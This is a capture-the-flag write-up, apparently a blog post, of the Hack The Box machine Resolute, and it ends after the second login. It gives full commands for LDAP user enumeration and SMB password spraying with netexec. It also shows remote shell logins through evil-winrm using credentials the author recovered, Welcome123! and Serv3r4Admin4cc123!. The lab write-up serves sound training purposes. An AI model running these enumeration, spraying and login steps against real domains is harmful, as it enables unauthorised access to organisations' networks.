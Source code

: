 ```yaml
---
layout: post
title:  "HTB - RESOLUTE"
date:   2025-02-05 20:52:24 +0100
categories: ["HTB Machine writeups"]
---
```

As usually starting with nmap 

{% highlight ruby %}
nmap 10.10.10.169 -sV -A -Pn   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-05 18:33 CET
Nmap scan report for 10.10.10.169
Host is up (0.060s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-02-05 17:42:23Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/5%OT=53%CT=1%CU=42741%PV=Y%DS=2%DC=T%G=Y%TM=67A3A
OS:177%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=106%TI=I%CI=I%II=I%SS=S%T
OS:S=A)SEQ(SP=FF%GCD=1%ISR=105%TI=I%CI=I%II=I%SS=S%TS=A)SEQ(SP=FF%GCD=1%ISR
OS:=106%TI=RD%CI=I%II=I%TS=C)OPS(O1=M53CNW8ST11%O2=M53CNW8ST11%O3=M53CNW8NN
OS:T11%O4=M53CNW8ST11%O5=M53CNW8ST11%O6=M53CST11)WIN(W1=2000%W2=2000%W3=200
OS:0%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M53CNW8NNS%CC=Y%Q=)
OS:T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=
OS:0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T
OS:6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=1
OS:64%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h47m00s, deviation: 4h37m09s, median: 6m59s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2025-02-05T09:42:42-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2025-02-05T17:42:41
|_  start_date: 2025-02-05T17:29:28
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   73.59 ms 10.10.14.1
2   73.68 ms 10.10.10.169

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.11 seconds
{% endhighlight %}

We have destinguished name for domain so lets see if we can get usernames 

{% highlight shell %}
ldapsearch -H ldap://10.10.10.169 -x -b "DC=megabank,DC=local" '(ObjectClass=Person)' sAMAccountName | grep sAMAccountName
{% endhighlight %}

{% highlight ruby %}
sAMAccountName: Guest
sAMAccountName: DefaultAccount
sAMAccountName: RESOLUTE$
sAMAccountName: MS02$
sAMAccountName: ryan
sAMAccountName: marko
sAMAccountName: sunita
sAMAccountName: abigail
sAMAccountName: marcus
sAMAccountName: sally
sAMAccountName: fred
sAMAccountName: angela
sAMAccountName: felicia
sAMAccountName: gustavo
sAMAccountName: ulf
sAMAccountName: stevie
sAMAccountName: claire
sAMAccountName: paulo
sAMAccountName: steve
sAMAccountName: annette
sAMAccountName: annika
sAMAccountName: per
sAMAccountName: claude
sAMAccountName: melanie
sAMAccountName: zach
sAMAccountName: simon
sAMAccountName: naoki
{% endhighlight %}

Let's enum deeper on descriptions 

{% highlight ruby %}
description: Account created. Password set to Welcome123!   
{% endhighlight %}

So we have our password. But it appears to be default one, so we need to check if it fits for any usernames we already have. 

{% highlight shell %}
netexec smb 10.10.10.169 -u logins_resolute -p 'Welcome123!'
{% endhighlight %}

{% highlight ruby %}
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Guest:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\DefaultAccount:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\RESOLUTE$:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\MS02$:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\ryan:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\sunita:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\abigail:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marcus:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\sally:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\fred:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\angela:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\felicia:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\gustavo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\ulf:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\stevie:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\claire:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\paulo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\annette:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\annika:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
{% endhighlight %}

Now we know that password fits to melanie user and we can WinRM to it.

{% highlight shell %}
evil-winrm -i 10.10.10.169 -u 'melanie' -p 'Welcome123!'
{% endhighlight %}

...

Once i started enumerating this part got tricky because i couldn't find anything interesting so i used the hint from guided mode 
{% highlight shell %}
What is the full path to the file containing history logs for a PowerShell session?
{% endhighlight }

And for me obviously this was about %APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt 
which is default path i check during forensic investigations related to used powershell commands.
Wowever that path was not present on melanie user. Finally i found that it was related to hidden file under path

{% highlight shell %}
C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
{% endhighlight }

Not sure if this directory/file is something real or just made up as synthetic way of making it more difficult.

Upon review we can find that file contains new set of credentials for Ryan user so we can login again with another set of credentials 

{% highlight shell %}
evil-winrm -i 10.10.10.169 -u 'ryan' -p 'Serv3r4Admin4cc123!'  
{% endhighlight %}


